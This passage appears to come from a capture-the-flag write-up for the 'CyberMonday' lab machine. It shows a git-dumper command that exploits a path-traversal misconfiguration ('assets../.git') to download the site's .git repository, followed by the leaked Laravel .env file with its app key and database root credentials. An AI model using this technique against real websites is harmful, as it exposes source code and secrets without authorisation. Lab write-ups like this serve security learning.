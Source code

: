 We can dump out the `.git` repository we found using `git-dumper`:

```
$ ./git_dumper.py http://cybermonday.htb/assets../.git ~/htb/cybermonday/git
```

I also read the `.env` file using this method:

```
APP_NAME=CyberMonday
APP_ENV=local
APP_KEY=base64:EX3zUxJkzEAY2xM4pbOfYMJus+bjx6V25Wnas+rFMzA=
APP_DEBUG=true
APP_URL=http://cybermonday.htb

LOG_CHANNEL=stack
LOG_DEPRECATIONS_CHANNEL=null
LOG_LEVEL=debug

DB_CONNECTION=mysql
DB_HOST=db
DB_PORT=3306
DB_DATABASE=cybermonday
DB_USERNAME=root
DB_PASSWORD=root

BROADCAST_DRIVER=log
CACHE_DRIVER=file
FILESYSTEM_DISK=local
QUEUE_CONNECTION=sync
SESSION_DRIVER=redis
SESSION_LIFETIME=120

MEMCACHED_HOST=127.0.0.1

REDIS_HOST=redis
REDIS_PASSWORD=
REDIS_PORT=6379
REDIS_PREFIX=laravel_session:
CACHE_PREFIX=

MAIL_MAILER=smtp
MAIL_HOST=mailhog
MAIL_PORT=1025
MAIL_USERNAME=null
MAIL_PASSWORD=null
MAIL_ENCRYPTION=null
MAIL_FROM_ADDRESS="hello@example.com"
MAIL_FROM_NAME="${APP_NAME}"

AWS_ACCESS_KEY_ID=
AWS_SECRET_ACCESS_KEY=
AWS_DEFAULT_REGION=us-east-1
AWS_BUCKET=
AWS_USE_PATH_STYLE_ENDPOINT=false

PUSHER_APP_ID=
PUSHER_APP_KEY=
PUSHER_APP_SECRET=
PUSHER_APP_CLUSTER=mt1

MIX_PUSHER_APP_KEY="${PUSHER_APP_KEY}"
MIX_PUSHER_APP_CLUSTER="${PUSHER_APP_CLUSTER}"

CHANGELOG_PATH="/mnt/changelog.txt"
```